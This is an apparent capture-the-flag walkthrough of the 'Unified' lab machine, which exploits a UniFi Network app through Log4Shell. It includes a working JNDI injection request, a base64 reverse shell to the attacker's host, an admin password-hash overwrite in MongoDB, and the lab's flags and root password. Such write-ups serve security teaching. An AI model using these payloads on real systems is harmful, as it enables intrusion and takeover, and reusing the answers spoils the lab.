### Unified

**OS:** Linux<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 2](/StartingPoint/Tier2/)<br><br>
**Tags:** Vulnerability Assessment, Databases, Custom Applications, MongoDB, Java, Reconnaissance, Clear Text Credentials, Default Credentials, Code Injection<br>


---

#### Task 1
**Which are the first four open ports?**
> 22,6789,8080,8443




---

#### Task 2
**What is the title of the software that is running running on port 8443?**
> UniFi Network




---

#### Task 3
**What is the version of the software that is running?**
> 6.4.54

We visit `https://{TARGET IP}:8443`:




---

#### Task 4
**What is the CVE for the identified vulnerability?**
> CVE-2021-44228

We see that The Unifi Network Application Versions prior to 6.5.54 are vulnerable to [CVE-2021-44228](https://github.com/puzzlepeaches/Log4jUnifi).


---

#### Task 5
**What protocol does JNDI leverage in the injection?**
> ldap


---

#### Task 6
**What tool do we use to intercept the traffic, indicating the attack was successful?**
> tcpdump

We confirm that the target website is vulnerable. First we set up `tcpdump` on the `tun0` interface and port `389` to monitor ldap connections in the network. Next we use `curl` to make an HTTP Post Request to the login page:

```bash
curl -i -s -k -X POST -H $'Host: {TARGET IP}:8443' -H $'Content-Length: 95' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://{OUR IP}/whatever}\",\"strict\":true}' $'https://{TARGET IP}:8443/api/login'
```

Checking `tcpdump`, we see an incoming ldap connection to our machine, meaning the target website is vulnerable:




---

#### Task 7
**What port do we need to inspect intercepted traffic for?**
> 389


---

#### Task 8
**What port is the MongoDB service running on?**
> 27117

We make a reverse shell. We setup a netcat listener on port `4444`:

```bash
# Terminal 1
nc -nlvp 4444
```

In another terminal, we setup the exploit:
```bash
# Terminal 2
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

Then we make and deliver our reverse shell:
```bash
# Terminal 2
b64=$(echo 'bash -c bash -i >&/dev/tcp/{OUR IP}/4444 0>&1' | base64)
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,$b64}|{base64,-d}|{bash,-i}" --hostname "{OUR IP}"
```

In another terminal, we use the `curl` command to start a reverse shell:
```bash
# Terminal 3
curl -i -s -k -X POST -H $'Host:{TARGET IP}:8443' -H $'Content-Length: 100' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://{OUR IP}:1389/o=tomcat}\",\"strict\":true}' $'https://{TARGET IP}:8443/api/login'
```

Then in our first terminal, we have a reverse shell:



In our reverse shell, we see that the MongoDB service is running on port 27117:




---

#### Task 9
**What is the default database name for UniFi applications?**
> ace


---

#### Task 10
**What is the function we use to enumerate users within the database in MongoDB?**
> db.admin.find()

We can use the `db.admin.find()` functions to enumerate users:




---

#### Task 11
**What is the function we use to update users within the database in MongoDB?**
> db.admin.update()

The `x_shadow` field holds the sha512 password hash. We don't know the administrator's password and can't recover it from the `x_shadow` field:



However, we can update the administrator's password. On our own computer we use the `mkpasswd` command to create a hash of the password `password`:

```bash
$ mkpasswd -m sha-512 password
```

In our reverse shell, we set the administrator's `x_shadow` field to the value of the password hash:



We are now able to login to the target website using the username `administrator` and password `password`:




---

#### Task 12
**What is the password for the root user?**
> NotACrackablePassword4U2022

While logged into the target website as the `administrator`, we click on the `settings` button on the left control bar. Next we scroll down to the `Device Authentication` section where we see the credentials for the root user:




---

#### User Flag
> 6ced1a6a89e666c0620cdb10262ba127




#### Root Flag
> e50bc93c75b634e4b272d2f771c33681

We connect to the target machine using our credentials for root:
```bash
ssh root@{TARGET IP}
```

Then we find the root flag:



---